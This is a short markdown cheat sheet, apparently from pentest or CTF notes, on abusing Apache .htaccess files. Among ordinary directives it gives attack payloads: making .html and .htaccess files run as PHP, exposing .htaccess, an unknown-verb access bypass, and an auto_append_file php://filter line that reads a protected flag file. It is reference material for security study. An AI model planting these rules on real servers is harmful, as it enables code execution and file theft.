 
# Apache Configuration using .htaccess

`.htaccess` files are used to configure a web directory and its subdirectories.

# .htaccess

If `AllowOverride` is set to `All`, then malicious `.htaccess` will be interpreted as legit configuration files.

**Directory index**

```bash
DirectoryIndex home.html
```

**Rewrite URLs** :
With the **mod_rewrite** module of the Apache HTTP Web server preinstalled on your Web Hosting plan, you can use this feature to redirect:

- All HTTP requests to a single file on your website.
- A portion of HTTP requests to a single file on your website.
- Your domain name to its www subdomain.
- Requests to a particular folder, without displaying the folder concerned.
- Website requests to HTTPS when a URL was opened in HTTP.

https://help.ovhcloud.com/csm/en-web-hosting-htaccess-url-rewriting?id=kb_article_view&sysparm_article=KB0052861

**Redirect error messages**
```bash
ErrorDocument Error_Code_Number Message_Or_Destination
```

**Authorize reading**
```.htaccess
<Files ".htaccess">
    Require all granted
</Files>
```

**Redirect requests**
```
Options +FollowSymLinks
RewriteEngine On
RewriteRule ^folder1.*$ https://mydomain.com/ [R=301,L]
```

**Redirect requests**
```
# Convert http://exemple.com/blabla/blabla to http://exemple.com/private/flag.txt/blabla/blabla
Redirect 301 / /private/flag.txt

# Convert http://exemple.com/blabla/blabla to http://google.com/private/flag.txt/blabla/blabla
Redirect 301 / http://google.com
```

**Interpreting as PHP**
```
# It means that all files with an extension html will execute php
AddType application/x-httpd-php .html
```

```
AddType application/x-httpd-php .htaccess
```

**Bypass .htaccess by using unkown verb**
- Works only on very old versions
```
AAAA /flag.txt
```

**Auto Append file**
```bash
php_value auto_append_file "php://filter/convert.base64-encode/resource=/private/flag.txt"
```
# Resources
- http://corb3nik.github.io/blog/insomnihack-teaser-2019/l33t-hoster
- https://github.com/wireghoul/htshells/blob/master/traversal/mod_hitlog.traversal.htaccess
- https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
- https://httpd.apache.org/docs/2.2/fr/howto/htaccess.html
- https://swisskyrepo.github.io/PayloadsAllTheThings/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess/
- http://archive.justanotherhacker.com/2011/05/htaccess-based-attacks.html
- https://blog.qualys.com/vulnerabilities-threat-research/2015/10/22/unrestricted-file-upload-vulnerability
- https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/php-tricks-esp
- https://corz.org/server/tricks/htaccess.php